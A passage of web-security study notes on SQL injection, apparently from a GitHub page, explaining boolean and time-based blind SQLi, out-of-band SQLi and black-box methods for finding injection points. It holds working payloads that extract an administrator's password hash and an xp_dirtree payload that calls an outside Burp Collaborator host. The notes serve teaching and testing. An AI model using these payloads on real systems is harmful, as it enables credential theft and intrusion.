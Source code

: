=> Nothing is returned on the page => Returned False => s’ is NOT the first character of the hashed password

Payload:
```
www.random.com/app.php?id=1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'e'
```
Backend Query:
```
select title from product where id =1 and SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'e'
```
=> Title of product id 1 is returned on the page => Returned True => e’ IS the first character of the hashed password

### Time-Based Blind SQLi
- Time-based SQLi is a blind SQLi technique that relies on the database pausing for a specified amount of time, then returning the results, indicating a successful SQL query execution.
- Example Query:
If the first character of the administrator’s hashed password is an ‘a’, wait for 10 seconds.
  - response takes 10 seconds → first letter is 'a'
  -  response doesn’t take 10 seconds → first letter is not ‘a’

## Out-of-Band (OAST) SQLi
- OAST - Out-of-band Application Security Testing
- Vulnerability that consists of triggering an out-of-band network 
connection to a system that attacker control.
  - Not common
  - A variety of protocols can be used (ex. DNS, HTTP)
- Example Payload:
```
'; exec master..xp_dirtree'//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```


---

# HOW TO FIND SQLI VULNERABILITIES?

## Finding SQLi Vulnerabilities

- Depends on the perspective of testing.
  - Black Box Testing
  - White Box Testing

## Black-Box Testing Perspective
- Map the application
  - Visit URL of the application
  - Walk through all the pages accessible within the user context 
  - Make note of all input vectors that potentially talk to the backend
  - Try to understand how the application functions
  - Try to figure out login of the application
  - Try to figure out the subdomains in the applications
  - Enumerate directories and pages that might not be directly visible through the application
  - And so on.
  -  `While doing that keeps burp proxy listenig silently and intercepting all the requests that we are making into the application`
- Fuzz the application
  - Submit SQL-specific characters such as ' or ", and look for errors or other anomalies
  - Submit Boolean conditions such as OR 1=1 and OR 1=2, and look for differences in the application's responses